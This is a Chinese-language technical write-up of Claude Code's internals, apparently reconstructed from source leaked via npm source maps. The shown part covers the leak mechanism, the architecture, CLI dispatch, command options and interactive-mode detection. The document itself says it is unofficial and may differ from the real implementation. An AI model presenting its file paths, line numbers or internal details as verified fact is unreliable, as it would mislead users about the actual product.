# Claude Code 源码深度技术文档

> **资料性质：非官方。** 本文基于逆向分析与泄露源码整理，与官方实际实现可能不一致，仅供工程参考，不作为产品能力承诺。
> 收录日期：2026-08-17｜对应题库章节：[Claude Code](../../04-products/claude-code/README.md)

> 本文档基于 Claude Code（Anthropic 官方 AI 编程 CLI）泄漏源码的系统性源码阅读与逆向分析撰写，覆盖 1884 个 TypeScript/TSX 文件、35 个子系统。文档以中文撰写，包含丰富的 Mermaid 架构图、流程图与时序图，力求做到既能纵览全局架构，又能深入关键实现细节。

---

## 目录

- [第一部分 总览与背景](#第1部分-总览与背景)
  - [第 1 章 项目起源与源码泄漏背景](#第-1-章-项目起源与源码泄漏背景)
  - [第 2 章 技术栈与整体架构](#第-2-章-技术栈与整体架构)
  - [第 3 章 顶层架构全景](#第-3-章-顶层架构全景)
  - [第 4 章 核心概念词典](#第-4-章-核心概念词典)
- [第二部分 启动与入口子系统](#第2部分-启动与入口子系统)
  - [第 5 章 两级分发：cli.tsx 到 main.tsx](#第-5-章-两级分发clitsx-到-maintsx)
  - [第 6 章 Commander.js 命令体系](#第-6-章-commanderjs-命令体系)
  - [第 7 章 交互式与非交互式分发](#第-7-章-交互式与非交互式分发)
  - [第 8 章 引导三阶段](#第-8-章-引导三阶段)
  - [第 9 章 传输层 transports](#第-9-章-传输层-transports)
  - [第 10 章 全局状态 STATE](#第-10-章-全局状态-state)
- [第三部分 QueryEngine 核心循环](#第3部分-queryengine-核心循环)
  - [第 11 章 查询引擎分层架构](#第-11-章-查询引擎分层架构)
  - [第 12 章 核心数据结构](#第-12-章-核心数据结构)
  - [第 13 章 queryLoop 主循环](#第-13-章-queryloop-主循环)
  - [第 14 章 流式 SSE 响应处理](#第-14-章-流式-sse-响应处理)
  - [第 15 章 工具调用决策与执行](#第-15-章-工具调用决策与执行)
  - [第 16 章 工具并发模型](#第-16-章-工具并发模型)
  - [第 17 章 成本与 Token 追踪](#第-17-章-成本与-token-追踪)
  - [第 18 章 错误处理与重试恢复](#第-18-章-错误处理与重试恢复)
  - [第 19 章 自动压缩链](#第-19-章-自动压缩链)
- [第四部分 工具系统](#第4部分-工具系统)
  - [第 20 章 Tool 接口与 buildTool 工厂](#第-20-章-tool-接口与-buildtool-工厂)
  - [第 21 章 工具注册表与装配](#第-21-章-工具注册表与装配)
  - [第 22 章 工具生命周期](#第-22-章-工具生命周期)
  - [第 23 章 权限模型](#第-23-章-权限模型)
  - [第 24 章 BashTool 深度解析](#第-24-章-bashtool-深度解析)
  - [第 25 章 文件工具族](#第-25-章-文件工具族)
  - [第 26 章 LSP 工具](#第-26-章-lsp-工具)
  - [第 27 章 Web 工具](#第-27-章-web-工具)
  - [第 28 章 结果格式化与大结果落盘](#第-28-章-结果格式化与大结果落盘)
- [第五部分 多代理协调系统](#第5部分-多代理协调系统)
  - [第 29 章 三种协作模型](#第-29-章-三种协作模型)
  - [第 30 章 AgentTool 统一入口](#第-30-章-agenttool-统一入口)
  - [第 31 章 子代理类型与能力](#第-31-章-子代理类型与能力)
  - [第 32 章 Coordinator 协调模式](#第-32-章-coordinator-协调模式)
  - [第 33 章 Swarm 与 Agent Teams](#第-33-章-swarm-与-agent-teams)
  - [第 34 章 代理间消息传递](#第-34-章-代理间消息传递)
  - [第 35 章 共享任务系统](#第-35-章-共享任务系统)
  - [第 36 章 隔离机制与结果回流](#第-36-章-隔离机制与结果回流)
- [第六部分 Hooks 钩子系统](#第6部分-hooks-钩子系统)
  - [第 37 章 钩子事件与类型](#第-37-章-钩子事件与类型)
  - [第 38 章 钩子配置与来源合并](#第-38-章-钩子配置与来源合并)
  - [第 39 章 钩子执行机制](#第-39-章-钩子执行机制)
  - [第 40 章 阻止与允许机制](#第-40-章-阻止与允许机制)
- [第七部分 Bridge IDE 集成层](#第7部分-bridge-ide-集成层)
  - [第 41 章 Bridge 概述](#第-41-章-bridge-概述)
  - [第 42 章 传输机制](#第-42-章-传输机制)
  - [第 43 章 消息协议与会话管理](#第-43-章-消息协议与会话管理)
  - [第 44 章 认证四层与权限回调](#第-44-章-认证四层与权限回调)
- [第八部分 Services 后端服务](#第8部分-services-后端服务)
  - [第 45 章 MCP 服务](#第-45-章-mcp-服务)
  - [第 46 章 OAuth 服务](#第-46-章-oauth-服务)
  - [第 47 章 Analytics 分析服务](#第-47-章-analytics-分析服务)
  - [第 48 章 autoDream 记忆巩固系统](#第-48-章-autodream-记忆巩固系统)
  - [第 49 章 KAIROS 与 ULTRAPLAN](#第-49-章-kairos-与-ultraplan)
  - [第 50 章 团队记忆同步](#第-50-章-团队记忆同步)
- [第九部分 记忆与上下文系统](#第9部分-记忆与上下文系统)
  - [第 51 章 多层记忆架构](#第-51-章-多层记忆架构)
  - [第 52 章 memdir 文件式记忆](#第-52-章-memdir-文件式记忆)
  - [第 53 章 记忆写入三路径](#第-53-章-记忆写入三路径)
  - [第 54 章 记忆读取与召回](#第-54-章-记忆读取与召回)
  - [第 55 章 CLAUDE.md 指令机制](#第-55-章-claudemd-指令机制)
  - [第 56 章 compact 上下文压缩全流程](#第-56-章-compact-上下文压缩全流程)
  - [第 57 章 undercover 模式](#第-57-章-undercover-模式)
- [第十部分 命令、技能与插件系统](#第10部分-命令技能与插件系统)
  - [第 58 章 统一 Command 抽象](#第-58-章-统一-command-抽象)
  - [第 59 章 斜杠命令分发](#第-59-章-斜杠命令分发)
  - [第 60 章 技能系统](#第-60-章-技能系统)
  - [第 61 章 插件系统](#第-61-章-插件系统)
  - [第 62 章 信任模型与市场](#第-62-章-信任模型与市场)
- [第十一部分 UI 渲染与状态管理](#第11部分-ui-渲染与状态管理)
  - [第 63 章 自研 Ink 渲染层](#第-63-章-自研-ink-渲染层)
  - [第 64 章 布局引擎与帧调度](#第-64-章-布局引擎与帧调度)
  - [第 65 章 组件体系与屏幕系统](#第-65-章-组件体系与屏幕系统)
  - [第 66 章 状态管理与输出样式](#第-66-章-状态管理与输出样式)
- [第十二部分 Buddy 终端宠物系统](#第12部分-buddy-终端宠物系统)
  - [第 67 章 物种与稀有度](#第-67-章-物种与稀有度)
  - [第 68 章 确定性抽卡机制](#第-68-章-确定性抽卡机制)
  - [第 69 章 灵魂系统与渲染](#第-69-章-灵魂系统与渲染)
- [第十三部分 其他子系统](#第13部分-其他子系统)
  - [第 70 章 远程会话 CCR](#第-70-章-远程会话-ccr)
  - [第 71 章 语音输入](#第-71-章-语音输入)
  - [第 72 章 上游代理 upstreamproxy](#第-72-章-上游代理-upstreamproxy)
  - [第 73 章 键盘绑定与 Vim 模式](#第-73-章-键盘绑定与-vim-模式)
  - [第 74 章 后台任务机制](#第-74-章-后台任务机制)
- [第十四部分 附录](#第14部分-附录)
  - [第 75 章 关键文件索引](#第-75-章-关键文件索引)
  - [第 76 章 架构设计启示](#第-76-章-架构设计启示)
  - [第 77 章 术语表](#第-77-章-术语表)
- [第十五部分 深度原理剖析](#第15部分-深度原理剖析)
  - [第 78 章 启动延迟隐藏与 queryLoop 不变量](#第-78-章-启动延迟隐藏与-queryloop-不变量)
  - [第 79 章 流式工具执行的并发正确性与兄弟取消](#第-79-章-流式工具执行的并发正确性与兄弟取消)
  - [第 80 章 权限模型的分层决策与安全边界](#第-80-章-权限模型的分层决策与安全边界)
  - [第 81 章 权限规则字符串解析与文件系统 glob 匹配](#第-81-章-权限规则字符串解析与文件系统-glob-匹配)
  - [第 82 章 BashTool 安全分析与 AST 子命令拆分](#第-82-章-bashtool-安全分析与-ast-子命令拆分)
  - [第 83 章 auto 模式的 AI 分类器与预批准域名](#第-83-章-auto-模式的-ai-分类器与预批准域名)
  - [第 84 章 compact 的 prompt 工程与上下文保留](#第-84-章-compact-的-prompt-工程与上下文保留)
  - [第 85 章 compact 全流程的 21 步详解](#第-85-章-compact-全流程的-21-步详解)
  - [第 86 章 microcompact 双模式与 API 原生压缩](#第-86-章-microcompact-双模式与-api-原生压缩)
  - [第 87 章 响应式压缩与 partialCompact](#第-87-章-响应式压缩与-partialcompact)
  - [第 88 章 Session Memory 压缩的模板工程](#第-88-章-session-memory-压缩的模板工程)
  - [第 89 章 compact 的辅助机制与清理恢复](#第-89-章-compact-的辅助机制与清理恢复)
  - [第 90 章 记忆系统的召回相关性与写入互斥](#第-90-章-记忆系统的召回相关性与写入互斥)
  - [第 91 章 团队记忆同步与乐观锁](#第-91-章-团队记忆同步与乐观锁)
  - [第 92 章 会话恢复与 CLAUDE.md 指令机制](#第-92-章-会话恢复与-claudemd-指令机制)
  - [第 93 章 多代理隔离与 forkedAgent 缓存共享](#第-93-章-多代理隔离与-forkedagent-缓存共享)
  - [第 94 章 AgentTool 派生决策树与内置代理哲学](#第-94-章-agenttool-派生决策树与内置代理哲学)
  - [第 95 章 子代理结果回流与 Swarm 邮箱通信](#第-95-章-子代理结果回流与-swarm-邮箱通信)
  - [第 96 章 Bridge 的 epoch 与多会话模式](#第-96-章-bridge-的-epoch-与多会话模式)
  - [第 97 章 Remote CCR 会话适配器与 upstreamproxy 安全](#第-97-章-remote-ccr-会话适配器与-upstreamproxy-安全)
  - [第 98 章 MCP 传输协议与工具包装](#第-98-章-mcp-传输协议与工具包装)
  - [第 99 章 MCP OAuth 的全栈实现](#第-99-章-mcp-oauth-的全栈实现)
  - [第 100 章 系统提示词的组装、缓存与 API 注入](#第-100-章-系统提示词的组装缓存与-api-注入)
  - [第 101 章 thinking config 决策与 fast mode 优化](#第-101-章-thinking-config-决策与-fast-mode-优化)
  - [第 102 章 配置系统来源合并与 schema 校验](#第-102-章-配置系统来源合并与-schema-校验)
  - [第 103 章 工具结果落盘与延迟加载](#第-103-章-工具结果落盘与延迟加载)
  - [第 104 章 Coordinator 模式的 LLM 编排哲学](#第-104-章-coordinator-模式的-llm-编排哲学)
  - [第 105 章 Buddy 系统的防作弊与渲染状态机](#第-105-章-buddy-系统的防作弊与渲染状态机)
  - [第 106 章 自研 Ink 终端协议与状态管理](#第-106-章-自研-ink-终端协议与状态管理)
  - [第 107 章 Voice、Vim 与键盘绑定的状态机](#第-107-章-voicevim-与键盘绑定的状态机)
  - [第 108 章 autoDream 门控链经济学与进度追踪](#第-108-章-autodream-门控链经济学与进度追踪)
  - [第 109 章 Analytics 双 sink 路由与 OAuth profile 缓存](#第-109-章-analytics-双-sink-路由与-oauth-profile-缓存)
  - [第 110 章 GrowthBook 特性门控与遥测可观测性](#第-110-章-growthbook-特性门控与遥测可观测性)
  - [第 111 章 命令判别联合与斜杠解析分发](#第-111-章-命令判别联合与斜杠解析分发)
  - [第 112 章 技能加载层级与插件清单生态](#第-112-章-技能加载层级与插件清单生态)
  - [第 113 章 钩子配置集成与输出协议](#第-113-章-钩子配置集成与输出协议)
  - [第 114 章 钩子注册来源与匹配去重](#第-114-章-钩子注册来源与匹配去重)
  - [第 115 章 钩子的异步执行与条件过滤](#第-115-章-钩子的异步执行与条件过滤)
  - [第 116 章 钩子的 Elicitation 集成与可观测性](#第-116-章-钩子的-elicitation-集成与可观测性)
  - [第 117 章 历史会话持久化与 worktree 隔离](#第-117-章-历史会话持久化与-worktree-隔离)
  - [第 118 章 channel notification 的 gate 与权限](#第-118-章-channel-notification-的-gate-与权限)
  - [第 119 章 设计哲学的总结与反思](#第-119-章-设计哲学的总结与反思)

---

# 第一部分 总览与背景

## 第 1 章 项目起源与源码泄漏背景

Claude Code 是 Anthropic 官方推出的 AI 编程命令行工具（CLI），它并非一个简单的命令行脚本，而是一个体量惊人的工程系统：其入口文件 `main.tsx` 达 4683 行，`cli/print.ts` 达 5594 行，整个仓库包含 1884 个 TypeScript/TSX 文件，分布在 35 个顶层子系统目录之下。它使用自定义的 React 终端渲染器（基于 Ink 思想的完全重写）、40 余种内置工具、复杂的多代理编排能力、MCP（Model Context Protocol）集成、IDE 桥接层，甚至还隐藏着一个完整的"终端电子宠物"（Tamagotchi）系统。

本仓库源于一次源码泄漏事件。当 JavaScript/TypeScript 包发布到 npm 时，构建工具链通常会生成 source map 文件（`.map` 文件），这类文件用于在压缩后的生产代码与原始源码之间建立桥梁以便调试。问题在于：**source map 文件内部以 `sourcesContent` 字段的形式嵌入了完整的原始源码**。一个典型的 source map 结构如下：

```json
{
  "version": 3,
  "sources": ["../src/main.tsx", "../src/tools/BashTool.ts", "..."],
  "sourcesContent": ["// 每个文件的完整原始源码", "..."],
  "mappings": "AAAA,SAAS,OAAO..."
}
```

由于构建配置中未将 `*.map` 加入 `.npmignore`，或未在生产构建中关闭 source map 生成（Bun 的默认行为会生成 source map），Claude Code 的完整原始 TypeScript 源码便随 npm 包一并发布到了公开的 npm registry。任何人都可以通过 `npm pack` 或直接下载 `.tgz` 包提取出其中的 `.map` 文件，进而还原出几乎全部原始源码。

本文档即基于这一泄漏源码进行系统的源码阅读与架构分析。需要强调的是，本仓库中部分 ant（Anthropic 内部）专属功能的核心实现文件（如 `src/assistant/index.ts`、`src/buddy/observer.ts`、`src/commands/buddy/index.js`）在泄漏快照中并不存在——它们是 feature-gated 的运行时注入模块，在内部构建中通过 overlay 注入，在外部构建中被死代码消除。文档在涉及这些模块时会明确标注其缺失状态，仅根据调用点与提示词推断其行为。

### 1.1 工程规模概览

| 维度 | 数值 |
|---|---|
| TypeScript/TSX 文件数 | 1884 |
| 顶层子系统目录数 | 35 |
| `main.tsx` 行数 | 4683 |
| `cli/print.ts` 行数 | 5594 |
| 内置工具种类 | 40+ |

## 第 2 章 技术栈与整体架构

Claude Code 的技术栈选择体现了"在终端约束下追求最大工程能力"的设计哲学。

**语言与运行时**：全部使用 TypeScript/TSX，可运行于 Node.js 与 Bun 双运行时。Bun 原生支持 TypeScript 编译、内置 WebSocket、更快的启动速度，是首选运行时；Node.js 作为兼容后备。双运行时支持贯穿整个网络层与构建系统。

**终端 UI 渲染**：未使用社区的 Ink 库，而是完全自研了一套基于 React 思想的终端渲染器（`src/components/ink.tsx`）。自研渲染器实现了完整的终端协议栈（CSI/DEC/OSC/SGR 分词、OSC 8 超链接、OSC 11 主题探测、Kitty keyboard protocol），支持 alt screen、文本选区、鼠标交互等高级功能。

**CLI 框架**：使用 Commander.js 进行命令解析，但在此基础上构建了复杂的两级分发体系——`cli.tsx` 做顶层命令注册，`main.tsx` 做实际的命令执行与 REPL 启动。

**Schema 校验**：大量使用 Zod v4 进行配置、工具输入、钩子输出的 schema 校验。Zod schema 贯穿设置系统、权限规则解析、MCP 工具包装等核心模块。

**多代理编排**：通过 AgentTool 统一入口，支持 Coordinator 协调模式、Swarm Agent Teams、fork 子代理等多种协作模型。子代理可隔离于 git worktree、远程容器或进程内 AsyncLocalStorage。

**MCP 集成**：作为 MCP 客户端支持 7 种传输类型（SSE、HTTP、StreamableHTTP、stdio、in-process、claude.ai proxy 等），同时 Claude Code 自身也可作为 MCP 服务端暴露内置工具。

**特性门控**：使用 GrowthBook（Statsig）进行特性门控与动态配置，gate 统一用 `tengu_` 前缀。部分 feature 为构建期常量，通过 DCE 实现内外构建差异。

**构建**：使用 Bun 的 bundle 工具构建，`feature('XXX')` 在构建期被求值为常量，ant 构建包含全部功能，外部构建经 DCE 剔除 ant-only 代码。

### 2.1 35 个子系统目录

源码顶层 35 个子系统目录覆盖了从启动到渲染的完整链路：

| 层级 | 子系统目录 | 职责 |
|---|---|---|
| 入口 | `cli/`, `main.tsx`, `entrypoints/` | 命令注册、启动引导 |
| 核心 | `query/`, `tools/`, `services/` | 查询循环、工具执行、后端服务 |
| 多代理 | `tasks/`, `agents/` | 子代理、后台任务、worktree |
| 集成 | `hooks/`, `bridge/`, `mcp/` | 钩子、IDE 桥接、MCP |
| 记忆 | `memdir/`, `SessionMemory/` | 文件式记忆、会话记忆 |
| UI | `components/`, `screens/` | 终端渲染、屏幕系统 |
| 其他 | `buddy/`, `voice/`, `vim/` | 宠物、语音、Vim |

### 2.2 六大设计哲学

通读源码后，可提炼出贯穿全局的六大设计哲学：

1. **延迟加载（Lazy Loading）**：工具、技能、CLAUDE.md 按需加载，减少启动时的上下文占用
2. **严格三阶段引导**：模块加载 → init() → setup()，每阶段有明确的正确性约束
3. **结构化类型（Structured Types）**：判别联合、Zod schema 确保类型安全
4. **Prompt Cache 友好**：系统提示分段缓存、消息历史不变量维护、cache_edits 优雅删除
5. **分层信任（Layered Trust）**：权限规则多来源累积、deny 绝对优先、安全检查 bypass 免疫
6. **确定性优先（Determinism First）**：Buddy 抽卡用 hash(userId)、短请求 ID 用 FNV-1a 哈希

这些哲学在后续章节的具体实现中反复体现，是其工程决策的底层逻辑。

## 第 3 章 顶层架构全景

Claude Code 的架构可概括为六个层级，从用户输入到模型响应经过入口层、核心查询循环、工具与代理层、服务后端层、UI 渲染层和集成层。下面的架构图展示了各层之间的关系：


```mermaid
flowchart TD
    subgraph 启动与入口层
        CLI[cli.tsx Commander.js]
        MAIN[main.tsx 入口]
        INIT[init.ts 三阶段引导]
        SETUP[setup.ts cwd/worktree/权限]
    end

    subgraph 核心查询循环层
        QE[QueryEngine.ts 编排层]
        Q[query.ts queryLoop 主循环]
        API[claude.ts 流式 SSE]
        TE[StreamingToolExecutor 流式工具执行]
    end

    subgraph 工具与代理层
        TOOLS[tools.ts 工具注册表]
        TOOLIMPL[40+ 工具实现]
        AGENT[AgentTool 多代理入口]
        COORD[coordinator 协调模式]
        SWARM[Swarm Agent Teams]
    end

    subgraph 服务后端层
        MCP[MCP 客户端/服务端]
        OAUTH[OAuth 认证]
        ANALYTICS[Analytics 遥测]
        DREAM[autoDream 记忆巩固]
        KAIROS[KAIROS 主动助手]
        ULTRAPLAN[ULTRAPLAN 远程规划]
    end

    subgraph UI渲染与状态层
        INK[自研 Ink 渲染器]
        COMP[业务组件]
        SCREEN[REPL 屏幕]
        STATE[AppState store]
    end

    subgraph 集成层
        BRIDGE[Bridge IDE/远程]
        REMOTE[Remote CCR]
        HOOKS[Hooks 引擎]
        MEM[memdir 记忆]
        CMD[命令/技能/插件]
    end

    CLI --> MAIN
    MAIN --> INIT --> SETUP
    SETUP --> QE
    QE --> Q --> API
    Q --> TE --> TOOLIMPL
    TOOLS --> TOOLIMPL
    AGENT --> COORD
    AGENT --> SWARM
    QE -.工具集.-> TOOLS
    QE -.状态.-> STATE
    STATE --> SCREEN
    INK --> SCREEN
    COMP --> SCREEN
    QE -.每轮停止.-> DREAM
    QE -.每轮停止.-> ANALYTICS
    QE -.调用.-> MEM
    QE -.调用.-> CMD
    HOOKS -.PreToolUse/PostToolUse.-> TE
    BRIDGE --> REMOTE
    BRIDGE -.桥接.-> QE
```

### 3.1 一轮对话的端到端数据流

理解 Claude Code 最直接的方式是跟踪一次完整的用户交互。当用户在交互式 REPL 中输入一条消息并按下回车，系统内部发生的事情如下：


```mermaid
sequenceDiagram
    participant U as 用户
    participant REPL as REPL 屏幕
    participant QE as QueryEngine
    participant Q as queryLoop
    participant API as claude.ts
    participant TE as StreamingToolExecutor
    participant TOOL as 工具实现
    participant HOOK as Hooks 引擎

    U->>REPL: 输入消息 + 回车
    REPL->>QE: submitMessage(input)
    QE->>QE: processUserInput 解析斜杠命令/附件
    QE->>Q: query(messages, options)
    loop queryLoop 单轮迭代
        Q->>Q: 消息预处理(snip/microcompact/contextCollapse/autocompact)
        Q->>API: callModel = queryModelWithStreaming
        API-->>Q: 流式 SSE 事件 (message_start/content_block_delta/...)
        Q->>Q: content_block_stop 产出 assistant 消息
        alt 包含 tool_use 块
            Q->>TE: addTool(block) 立即入队并发执行
            TE->>HOOK: runPreToolUseHooks
            HOOK-->>TE: permissionDecision/updatedInput
            TE->>TOOL: checkPermissions + call()
            TOOL-->>TE: ToolResult
            TE->>HOOK: runPostToolUseHooks
            TE-->>Q: tool_result (UserMessage)
        end
        Q->>Q: next.messages = [...assistantMessages, ...toolResults]
    end
    Q-->>QE: result(reason=completed)
    QE-->>REPL: yield SDK 消息流
    REPL-->>U: 渲染输出
    QE->>HOOK: handleStopHooks(extractMemories/autoDream)
```

这个时序图揭示了 Claude Code 的几个核心设计决策：第一，**工具执行与流式接收重叠**——通过 `StreamingToolExecutor`，工具可以在模型还在流式输出后续内容时就开始并发执行；第二，**工具结果以 UserMessage 形式回填**，保持与 Anthropic Messages API 的 tool_use/tool_result 配对语义一致；第三，**每轮模型停止后触发后台服务**（记忆提取、记忆巩固），形成"边对话边学习"的闭环。

---

## 第 4 章 核心概念词典

在深入各子系统之前，先统一本文档频繁出现的核心术语：

- **REPL**：Read-Eval-Print Loop，Claude Code 的交互式终端界面，核心屏幕组件位于 `src/screens/REPL.tsx`。
- **queryLoop**：核心查询循环，位于 `src/query.ts` 的 `queryLoop` 函数，是一个 `while(true)` 的异步生成器，每轮迭代代表一次"模型推理 + 工具执行"的循环。
- **QueryEngine**：核心编排层，位于 `src/QueryEngine.ts`，封装会话生命周期、消息持久化、SDK 消息转换、成本预算检查。
- **tool_use / tool_result**：Anthropic Messages API 的工具调用语义。模型在 `content` 中产出 `tool_use` 块，客户端执行后以 `tool_result` 块（封装在 UserMessage 中）回填，模型据此继续推理。
- **content block**：模型消息的一个组成块，类型包括 `text`、`thinking`、`tool_use`、`server_tool_use`。Claude Code 在每个 `content_block_stop` 事件就产出一个 assistant 消息（按块切分）。
- **prompt cache**：Anthropic API 的提示缓存机制。Claude Code 处处优化以确保缓存前缀稳定（工具排序、fork 继承精确工具、不改动原始输入）。
- **AppState**：全局运行时状态，定义于 `src/state/AppStateStore.ts`，通过自研 store + `useSyncExternalStore` 管理。
- **STATE**：引导期全局单例，位于 `src/bootstrap/state.ts`，承载 cwd/sessionId/isInteractive 等基础状态。
- **compact**：上下文压缩。当对话历史接近上下文窗口上限时，将旧消息摘要化以腾出空间。
- **subagent / teammate**：子代理。subagent 是一次性派生的子任务执行者；teammate 是 Swarm 模式下持久存在的协作代理。
- **MCP**：Model Context Protocol，模型上下文协议，用于扩展模型的工具、资源、提示词。
- **Bridge / Remote Control**：连接本地 CLI 与 claude.ai/code（Web/IDE/移动端）的集成层。
- **CCR**：Claude Code Remote，远程会话模式，Claude 在远端容器中执行，本地 CLI 作为 viewer/controller。
- **ant**：Anthropic 内部构建标记。`USER_TYPE === 'ant'` 或 `"external" === 'ant'` 是构建期常量，外部构建中被死代码消除。
- **feature gate**：构建期或运行时的特性开关，`feature('XXX')` 来自 `bun:bundle`，控制功能的启用。
- **forked agent**：通过 `runForkedAgent` 共享父进程 prompt cache 派生的子代理，用于 autoDream、extractMemories、compact 摘要等后台任务。

---

# 第二部分 启动与入口子系统

## 第 5 章 两级分发：cli.tsx 到 main.tsx

Claude Code 的启动入口采用了**两级分发**架构：最外层的 `src/entrypoints/cli.tsx`（302 行）负责对高频的 fast-path 命令做短路返回，只有在没有任何 fast-path 命中时，才动态加载庞大的 `src/main.tsx`（4683 行）主程序。这种设计确保了 `claude --version` 这类高频操作几乎零开销——在命中 fast-path 之前，所有 import 都是动态 `await import()`，零模块加载即返回。

### 5.1 cli.tsx 的 fast-path 短路

`cli.tsx` 的 `main()` 函数（第 33 行）按固定顺序检查一系列 fast-path：

| 命令/参数 | 行号 | 处理 | 说明 |
|---|---|---|---|
| `--version` / `-v` | 37 | 直接打印 `MACRO.VERSION` | 无任何 import |
| `--dump-system-prompt` | 53 | ant-only | 导出系统提示 |
| `--claude-in-chrome-mcp` / `--chrome-native-host` / `--computer-use-mcp` | 72-93 | Chrome/Computer Use | 浏览器集成 |
| `--daemon-worker` | 100 | `runDaemonWorker` | 守护进程工作线程 |
| `remote-control` / `rc` / `remote` / `sync` / `bridge` | 112 | `bridgeMain` | Bridge 模式入口（`BRIDGE_MODE` 特性门控）|
| `daemon` | 165 | `daemonMain` | 守护进程 |
| `ps` / `logs` / `attach` / `kill` / `--bg` | 185 | `src/cli/bg.js` | 后台会话管理（`BG_SESSIONS` 门控）|
| `new` / `list` / `reply` | 212 | `templateJobs` | 模板任务（`TEMPLATES` 门控）|
| `environment-runner` | 226 | BYOC | 自带环境运行器 |
| `self-hosted-runner` | 238 | 自托管运行器 | |
| `--worktree --tmux` | 248 | `execIntoTmuxWorktree` | tmux 工作树 |

当以上 fast-path 均未命中时（第 287-298 行），才加载完整 CLI：

```ts
const { main: cliMain } = await import('../main.js');
await cliMain();
```

### 5.2 两级分发的价值

这种设计的价值在于**冷启动延迟的最小化**。`main.tsx` 及其依赖树极其庞大（React、Ink 渲染器、所有命令模块、所有工具），全量加载需要数百毫秒。而 `--version`、`daemon-worker`、`remote-control` 等命令在 CI 脚本、自动化流水线中被高频调用，它们不需要 UI、不需要工具系统。通过 fast-path 短路，这些命令的响应时间被压缩到个位数毫秒级。


```mermaid
flowchart TD
    START[用户执行 claude ...] --> MAIN[cli.tsx main]
    MAIN --> CHECK{匹配 fast-path?}
    CHECK -->|--version| V[打印版本, 零 import]
    CHECK -->|--daemon-worker| DW[runDaemonWorker]
    CHECK -->|remote-control/rc/bridge| BR[bridgeMain]
    CHECK -->|daemon| DM[daemonMain]
    CHECK -->|ps/logs/attach/kill| BG[src/cli/bg.js]
    CHECK -->|new/list/reply| TJ[templateJobs]
    CHECK -->|--worktree --tmux| TM[execIntoTmuxWorktree]
    CHECK -->|无 fast-path 命中| LOAD[动态 import main.tsx]
    LOAD --> CLIMAIN[cliMain 主程序]
    V --> END1[退出]
    DW --> END2[退出]
    BR --> END3[退出]
    DM --> END4[退出]
    BG --> END5[退出]
    TJ --> END6[退出]
    TM --> END7[退出]
```

## 第 6 章 Commander.js 命令体系

进入 `main.tsx` 后，主程序使用 `@commander-js/extra-typings`（带类型的 Commander.js）注册命令。核心入口是 `main()` 函数（第 585 行）。

### 6.1 程序构建与 preAction hook

```ts
// src/main.tsx 第 902 行
const program = new CommanderCommand()
// 第 907 行：仅在执行命令（非 help）时跑初始化
program.hook('preAction', ...)
// 第 968 行：默认命令
program.name('claude').description(...).argument('[prompt]', ...)
```

`preAction` hook 是引导初始化的关键挂载点。它会在任何命令的 action 执行**之前**运行，确保配置系统、网络、遥测等基础设施就绪。但 help 命令不触发 preAction，因此 `claude --help` 极快。

### 6.2 默认命令与选项链

默认命令（第 968 行）接受一个可选的 `[prompt]` 参数，并通过链式 `.option()` / `.addOption(new Option(...))` 注册大量选项：

- `-p` / `--print`：非交互式（headless）模式
- `--bare`：极简模式，跳过自动发现
- `--output-format`：输出格式（text/json/stream-json）
- `--input-format`：输入格式
- `--model`：模型选择
- `--mcp-config`：MCP 服务器配置
- `--permission-mode`：权限模式（default/acceptEdits/plan/bypassPermissions）
- `--sdk-url`：SDK 远程 URL
- `--remote-control`：远程控制模式
- `--dangerously-skip-permissions`：跳过所有权限检查

主 action handler（第 1006 行）长达约 2800 行，承载了几乎所有的启动复杂度。

### 6.3 子命令注册

除默认命令外，`main.tsx` 还注册了大量子命令（第 3894-4504 行）：

| 子命令 | 行号 | 说明 |
|---|---|---|
| `mcp` 命令组 | 3894 | `serve`/`remove`/`list`/`get`/`add-json`/`add-from-claude-desktop`/`reset-project-choices` |
| `auth` | 4100 | `login`/`status`/`logout` |
| `plugin` | 4148 | `install`/`uninstall`/`enable`/`disable`/`update`/`list`/`validate` |
| `marketplace` | 4171 | `add`/`remove` |
| `setup-token` | 4267 | 令牌设置 |
| `agents` | 4278 | 代理定义管理 |
| `auto-mode` | 4289 | 自动模式（TRANSCRIPT_CLASSIFIER 门控）|
| `remote-control` / `rc` | 4323 | 远程控制 |
| `assistant` | 4335 | KAIROS 助理模式 |
| `doctor` | 4346 | 健康检查 |
| `update` / `upgrade` | 4362 | 更新 |
| `install` | 4395 | 安装（GitHub App/Slack App）|
| `task` | 4440 | 任务管理 |
| `completion` | 4492 | Shell 补全 |
| `open` | 4059 | 直连（DIRECT_CONNECT）|

最终在第 4504 行：`await program.parseAsync(process.argv)` 触发解析。

### 6.4 条件编译与死代码消除

大量子命令和功能通过 `feature('XXX')`（来自 `bun:bundle`）控制条件编译。例如 `BRIDGE_MODE`、`KAIROS`、`VOICE_MODE`、`FORK_SUBAGENT`、`ULTRAPLAN` 等特性通过 `require()` 懒加载（`commands.ts` 第 62-122 行）。`USER_TYPE === 'ant'` 区分内部/外部构建——在外部构建中，ant-only 分支会被构建器常量折叠后死代码消除，相关函数退化为平凡返回。`INTERNAL_ONLY_COMMANDS`（`commands.ts:225`）仅在 ant 构建中暴露。

## 第 7 章 交互式与非交互式分发

### 7.1 isInteractive 的判定

在 `run()` 之前（第 854 行 `await run()`），系统根据 argv 早期判定是否为非交互式会话（`main.tsx` 第 797-815 行）：

```ts
const hasPrintFlag = cliArgs.includes('-p') || cliArgs.includes('--print');
const hasInitOnlyFlag = cliArgs.includes('--init-only');
const hasSdkUrl = cliArgs.some(arg => arg.startsWith('--sdk-url'));
const isNonInteractive = hasPrintFlag || hasInitOnlyFlag || hasSdkUrl || !process.stdout.isTTY;
setIsInteractive(!isNonInteractive);
initializeEntrypoint(isNonInteractive);
```

这个判定**必须在 `init()` 之前完成**，因为遥测初始化调用 auth 函数依赖此标志。判定逻辑综合了四个信号：是否有 `-p`/`--print` 标志、是否 `--init-only`、是否带 `--sdk-url`、以及 stdout 是否 TTY（管道/重定向时非 TTY）。

`initializeEntrypoint`（第 517 行）设置 `process.env.CLAUDE_CODE_ENTRYPOINT`，用于标识入口类型：

| 场景 | entrypoint 值 |
|---|---|
| `mcp serve` | `'mcp'` |
| GitHub Action | `'claude-code-github-action'` |
| 非交互式 | `'sdk-cli'` |
| 交互式 | `'cli'` |

### 7.2 交互式入口

交互式分支（`main.tsx:2218`）创建 Ink root 并显示 setup screens：

```ts
// 第 2226-2229 行
const root = createRoot()
// 第 2241 行
await showSetupScreens(root, permissionMode, allowDangerouslySkipPermissions, commands, ...)
```

